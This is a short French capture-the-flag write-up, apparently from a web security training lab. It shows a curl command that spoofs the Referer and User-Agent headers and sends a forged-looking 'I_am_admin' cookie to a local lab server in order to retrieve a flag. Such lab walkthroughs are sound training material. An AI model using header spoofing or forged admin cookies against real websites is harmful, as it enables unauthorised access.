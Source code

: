 EXPLAIN:

Sur le lien en bas du footer

On voit dans le commentaire :

You must cumming from : "https://www.nsa.gov/" to go to the next step
Let's use this browser : "ft_bornToSec". It will help you a lot.

Panneau inspection > Réseau > index.php? …. 

clic droit> copier > copier au format curl 

On change Referrer et User-Agent

curl '[http://192.168.1.17/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c](http://192.168.1.17/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c)' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
-H 'Accept-Language: fr-FR,fr;q=0.9' \
-H 'Connection: keep-alive' \
-H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327' \
-H 'DNT: 1' \
-H 'Referer: [https://www.nsa.gov/](https://www.nsa.gov/)' \
-H 'Upgrade-Insecure-Requests: 1' \
-H 'User-Agent: ft_bornToSec' \
--compressed \
--insecure | grep flag

